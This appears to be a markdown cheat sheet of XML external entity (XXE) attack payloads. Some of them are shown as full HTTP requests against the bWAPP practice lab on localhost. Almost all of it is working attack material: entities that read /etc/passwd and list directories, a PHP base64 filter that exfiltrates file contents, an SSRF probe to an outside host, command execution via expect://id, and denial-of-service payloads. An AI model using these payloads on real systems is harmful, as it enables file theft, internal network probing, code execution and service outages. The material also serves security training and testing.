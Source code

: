 Get etc/passwd file
===================
Payload:
--------

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE Header [<!ENTITY xxe SYSTEM "///etc/passwd" >]>

Request:
--------

```http
POST /bWAPP/bWAPP/xxe-2.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: text/xml; charset=UTF-8
Referer: http://127.0.0.1/bWAPP/bWAPP/xxe-1.php
Content-Length: 150
Cookie: security_level=0; PHPSESSID=233c7b2e688f1941842f9bd424841db5
Connection: close

 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "///etc/passwd">]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>

```


Calling The Remote File
========================

Payload:
-------

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://127.0.0.1/imx.txt" >]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```

REQUEST:
--------

```http
POST /bWAPP/bWAPP/xxe-2.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: text/xml; charset=UTF-8
Referer: http://127.0.0.1/bWAPP/bWAPP/xxe-1.php
Content-Length: 162
Cookie: security_level=0; PHPSESSID=233c7b2e688f1941842f9bd424841db5
Connection: close

 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "http://127.0.0.1/imx.txt" >]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```


Calling The Local File
======================

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE Header [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```

OR

```xml
 <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<reset><login>&xxe;</login><secret>Any bugs?</secret></reset>
```

---


Reading Files
-------------

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "file:///etc/passwd">
]>
<student>
<name>&oops;</name>
</student>
```



Listing Directories
-------------------

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "file:///etc/ ">
]>
<student>
<name>&oops;</name>
</student>
```




Base64 Conversion of Result
---------------------------
```xml
<!DOCTYPE student [
<!ENTITY pwn SYSTEM "php://filter/convert.base64-
encode/resource=/etc/passwd">
]>
<student>
<name>&pwn;</name>
</student>

```



XXE to SSRF
-----------

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "http://scanme.nmap.org:20/">
]>
<student>
<name>&oops;</name>
</student>
```




xxe to RCE
----------

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE name [
<!ENTITY rce SYSTEM "expect://id">
]>
<student>
<name>&rce;</name>
</student>
```


XXE to DOS
-----------

```xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE student [
<!ENTITY oops SYSTEM "file:///dev/random">
]>
<student>
<name>&oops;</name>
</student>
```




XXE Quadratic blowup [DOS]
---------------------

```xml
<?xml version="1.0"?>
<!DOCTYPE student [
<!ENTITY x "xxxxxxxxxxxxxxxxx..."> (50,000-100,000)
]>
<student>&x;&x;&x;&x;&x;&x;&x;&x;&x;...</student> (50,000-100,00)
```

